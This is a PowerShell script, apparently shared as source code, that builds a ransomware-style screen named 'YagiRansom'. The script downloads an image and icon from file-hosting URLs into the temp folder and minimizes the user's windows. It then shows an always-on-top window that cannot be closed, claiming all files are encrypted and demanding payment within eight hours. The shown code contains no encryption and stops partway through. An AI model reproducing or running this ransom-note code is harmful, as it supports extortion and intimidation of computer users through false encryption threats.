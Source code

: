 ```powershell
Invoke-WebRequest -useb https://www.mediafire.com/view/wlq9mlfrlonlcuk/yagi.png/file -Outfile $env:temp\YagiRansom.jpg
Invoke-WebRequest -useb https://www.mediafire.com/file/s4qcg4hk6bnd2pe/Yagi.ico/file -Outfile $env:temp\YagiRansom.ico
$shell = New-Object -ComObject "Shell.Application"
$shell.minimizeall()
$form = New-Object system.Windows.Forms.Form
$form.ControlBox = $false;
$form.Size = New-Object System.Drawing.Size(900,600) 
$form.BackColor = "Black" 
$form.MaximizeBox = $false 
$form.StartPosition = "CenterScreen" 
$form.WindowState = "Normal"
$form.Topmost = $true
$form.FormBorderStyle = "Fixed3D"
$form.Text = "YagiRansom"
$formIcon = New-Object system.drawing.icon ("$env:temp\YagiRansom.ico") 
$form.Icon = $formicon  
$img = [System.Drawing.Image]::Fromfile("$env:temp\YagiRansom.jpg")
$pictureBox = new-object Windows.Forms.PictureBox
$pictureBox.Width = 920
$pictureBox.Height = 370
$pictureBox.SizeMode = "StretchImage"
$pictureBox.Image = $img
$form.controls.add($pictureBox)
$label = New-Object System.Windows.Forms.Label
$label.ForeColor = "Cyan"
$label.Text = "All your files have been encrypted by YagiRansom!" 
$label.AutoSize = $true 
$label.Location = New-Object System.Drawing.Size(50,400) 
$font = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font 
$form.Controls.Add($label) 
$label1 = New-Object System.Windows.Forms.Label
$label1.ForeColor = "White"
$label1.Text = "But don
t worry, you can still recover them with the recovery key if you pay the ransom in the next 8 hours." 
$label1.AutoSize = $true 
$label1.Location = New-Object System.Drawing.Size(50,450)
$font1 = New-Object System.Drawing.Font("Consolas",15,[System.Drawing.FontStyle]::Bold) 
$form.Font = $Font1
$form.Controls.Add($label1) 
$okbutton = New-Object System.Windows.Forms.Button;
$okButton.Location = New-Object System.Drawing.Point(750,500)
$okButton.Size = New-Object System.Drawing.Size(110,35)
$okbutton.ForeColor = "Black"
$okbutton.BackColor = "White"
$okbutton.FlatStyle = [System.Windows.Forms.FlatStyle]::Flat
$okButton.Text = 'Pay Now!'
$okbutton.Visible = $false
$okbutton.Enabled = $true
$okButton.DialogResult = [System.Windows.Forms.DialogResult]::OK
$okButton.add_Click({ 
[System.Windows.Forms.MessageBox]::Show($this.ActiveForm, 'Your payment order has been successfully registered!', 'YagiRansom Payment Processing System',
[Windows.Forms.MessageBoxButtons]::"OK", [Windows.Forms.MessageBoxIcon]::"Warning")})
$form.AcceptButton = $okButton
$form.Controls.Add($okButton)
$form.Activate() 2>&1> $null
$form.Focus() 2>&1> $null
$btn=New-Object System.Windows.Forms.Label
$btn.Location = New-Object System.Drawing.Point(50,500)
```
